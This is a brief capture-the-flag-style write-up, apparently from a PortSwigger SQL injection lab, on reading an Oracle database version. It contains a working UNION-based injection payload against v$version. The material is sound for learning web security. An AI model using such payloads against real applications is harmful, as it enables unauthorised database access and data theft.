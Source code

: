 ### Seven Exercise 👆


![problem.PNG](/assets/SQLi/Seven/problem.PNG)


#### **To do**

```
To solve the lab, display the database version string. 
```

1. In Oracle every time we execute a query we have to indicate a table, the default table in Oracle is **dual**

**Cheatsheet**: https://portswigger.net/web-security/sql-injection/cheat-sheet

2. Read version of database
```sql
' union select NULL, banner from v$version-- -
```

![pwnd.JPG](/assets/SQLi/Seven/pwnd.PNG)